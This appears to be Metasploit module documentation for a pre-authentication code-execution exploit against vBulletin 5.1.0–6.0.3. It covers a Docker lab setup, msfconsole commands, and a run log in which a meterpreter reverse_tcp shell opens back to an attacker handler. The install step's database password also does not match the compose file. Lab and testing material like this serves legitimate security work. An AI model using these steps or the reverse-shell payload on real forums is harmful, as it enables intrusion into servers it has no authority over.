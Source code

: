 ## Vulnerable Application

This Metasploit module exploits a design flaw in vBulletin’s AJAX API handler and template
rendering system, affecting **vBulletin 5.1.0 through 6.0.3** on **PHP 8.1+**.
An unauthenticated attacker can invoke the protected `vB_Api_Ad::replaceAdTemplate()` method to inject a malicious template that calls
`system(base64_decode($_POST[<param>]))`, then trigger execution via the `ajax/render/ad_<location>` endpoint,
yielding arbitrary code execution as the webserver user.

> **Note:** vBulletin is commercial software and is **not** included here. You must obtain a licensed copy and extract it under `./upload/`.

---

## To replicate vulnerable environments

1. **vBulletin 6.0.1 (tested)**

   * Purchase and download vBulletin 6.0.1 from the official portal.
   * Extract all files into `./upload/`.

2. **Other versions (5.1.0–6.0.3)**

   * Repeat the above with any of the supported versions.
   * Ensure you run on PHP 8.1+; earlier PHP versions do not expose this flaw.

---

## Docker Compose Configuration

```yaml
services:
  db:
    image: mysql:5.7
    container_name: vbulletin_db
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root_password_here
      MYSQL_DATABASE: vbulletin
      MYSQL_USER: vbulletin
      MYSQL_PASSWORD: vb_password_here
    volumes:
      - db_data:/var/lib/mysql

  web:
    build: .
    container_name: vbulletin_web
    depends_on: [db]
    ports: ["8888:80"]
    volumes:
      - ./do_not_upload:/opt/vbulletin-tools:ro
    environment:
      VB_DB_HOST: db
      VB_DB_NAME: vbulletin
      VB_DB_USER: vbulletin
      VB_DB_PASS: vb_password_here

volumes:
  db_data:
```

Create the following **Dockerfile** and **docker-entrypoint.sh** in the same directory:

**Dockerfile**

```dockerfile
FROM php:8.1-apache

COPY upload/ /var/www/html/

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
       libzip-dev zlib1g-dev libonig-dev \
       libpng-dev libjpeg-dev libfreetype6-dev && \
    docker-php-ext-install \
       zip mysqli pdo_mysql gd mbstring && \
    a2enmod rewrite && \
    rm -rf /var/lib/apt/lists/*

RUN echo "phar.readonly=Off" > /usr/local/etc/php/conf.d/vbulletin.ini

COPY --chmod 755 docker-entrypoint.sh /usr/local/bin/
ENTRYPOINT ["docker-entrypoint.sh"]
CMD ["apache2-foreground"]
```

**docker-entrypoint.sh**

```bash
#!/bin/bash
chown -R www-data:www-data /var/www/html
exec "$@"
```

---

## Verification Steps

1. **Start the environment**
```bash
docker-compose up -d
```

2. **Install vBulletin**
Open [http://localhost:8888](http://localhost:8888) and complete the installation:

* **Database Host:** db
* **DB Name:** vbulletin
* **DB User:** vbulletin / vbpass

3. **Run `msfconsole`**

```bash
use exploit/multi/http/vbulletin_replace_ad_template_rce
set RHOSTS 127.0.0.1
set RPORT 8888
set TARGETURI /
check
```
* You should see:
```bash
[*] Detected vBulletin version: 6.0.1
[*] 127.0.0.1:8888 - The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
```

---

## Options

No option

---

## Scenarios

### Unauthenticated Pre-Auth RCE

1. Ensure vBulletin 5.1.0–6.0.3 is installed and running on PHP 8.1+.
2. In `msfconsole`, configure and run:

```bash
set RHOSTS localhost
set RPORT 8888
set TARGETURI /
```

---

## Expected Results

### With `cmd/linux/http/x64/meterpreter/reverse_tcp`

```plaintext
msf6 exploit(multi/http/vbulletin_replace_ad_template_rce) > run http://lab:8888
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected vBulletin version: 6.0.1
[+] The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
[*] Injecting RCE template at location 'MDb' with POST param 'YHp'
[*] Triggering payload execution via routestring 'ajax/render/ad_MDb'
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 172.28.0.3:45980) at 2025-05-23 22:46:22 +0200

meterpreter > sysinfo
Computer     : 172.28.0.3
OS           : Debian 12.11 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
